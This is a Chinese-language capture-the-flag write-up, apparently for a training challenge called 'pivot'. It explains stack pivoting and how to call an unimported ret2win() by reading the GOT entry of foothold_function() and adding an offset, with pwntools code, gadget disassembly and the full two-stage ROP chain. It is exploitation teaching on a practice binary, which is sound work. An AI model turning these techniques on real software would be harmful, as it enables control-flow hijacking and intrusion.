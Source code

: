 Hint1:
> There's only enough space for a three-link chain on the stack but you've been given space to
stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.

Hint2:
> The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean
you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and
add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function()
isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

<br>

## Stack Pivot
简单来说就是：改变 esp 的值，让它指向另一处的内存。

如果某处内存不够放完整的 ROP Chain，我们可以把完整的 ROP Chain 分成数段，分别摆在内存不同处，然后通过改变 esp 逐段执行。

<br>

## Calling Unimported Functions in Shared Library (.so)
这道题我们需要呼叫 ret2win() 来打印 flag，但 ret2win() 在程式中完全没被呼叫，那么我们怎么知道它是真实位址呢？

我们可以用 pwntools 计算出 ret2win() 和 foothold_function() 的偏移量：
```
from pwn import *

lib = ELF('libpivot32.so')
offset = lib.symbols['ret2win'] - lib.symbols['foothold_function']
```

然后我们先呼叫 `foothold_function@plt`，让其真实位址被填入 GOT 内。

接着取得 foothold_function() 在 GOT 中所对应 entry 的位址（注意：是 entry 的位址，不是 foothold_function 本身）
```
elf = ELF('pivot32')
foothold_function_got = elf.got['foothold_function']
```

也就是说，foothold_function_got 指向的内存空间中，存的就是 foothold_function() 的真实位址。

有了 foothold_function() 的真实位址，我们只要再加上刚刚算的 offset，就会得到 ret2win() 的真实位址了。
```
ret2win 真实位址 = [foothold_function_got] + offset
```

<br>

## Reverse
这题在 pwnme() 里面调用两次 fgets()：
1. 第一次，会写入 heap 某处（题目在一开始就先用 malloc() 获得了 heap 上 100 bytes 的空间，后面才呼叫 fgets()）
2. 第二次，会写入 stack（但最多只让使用者写0x3a bytes）

所以我们要做什么呢？
1. 第一次，题目要我们输入我们真正的 ROP Chain
2. 第二次，题目要我们进行 stack pivot

我們只要先 stack pivot，然後想辦法執行到 ret2win() 這個函數就可以了。

<br>

## ROP Gadgets
先看看题目给了哪些 gadgets：
```
pwndbg> disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x080488c0 <+0>:     pop    eax                  <--- gadget1
   0x080488c1 <+1>:     ret
   0x080488c2 <+2>:     xchg   esp,eax              <--- gadget2
   0x080488c3 <+3>:     ret
   0x080488c4 <+4>:     mov    eax,DWORD PTR [eax]  <--- gadget4
   0x080488c6 <+6>:     ret
   0x080488c7 <+7>:     add    eax,ebx              <--- gadget3
   0x080488c9 <+9>:     ret
（省略若干行）
```

用 `ROPGadget --binary pivot32` 可以再找到兩个有用的 gadgets：
```
0x08048571 : pop ebx ; ret   <--- gadget5
0x080486a3 : call eax        <--- gadget6
```

## Pwn
有了以上六个 gadgets，我们可以设计 ROP Chain 了。

下面这段输入到第一次 fgets() 里：
```
ret: foothold_function@plt +
ret: gadget1 +
eax: foothold_function@got.plt +
ret: gadget4 + 
ret: gadget5 +
ebx: 0x1f7 +
ret: gadget3 +
ret: gadget6
```

下面这段输入到第二次 fgets() 里：
```
padding: 11 * 'AAAA' +
ret: gadget1 +
eax: pivot_dest +
ret: gadget2
```
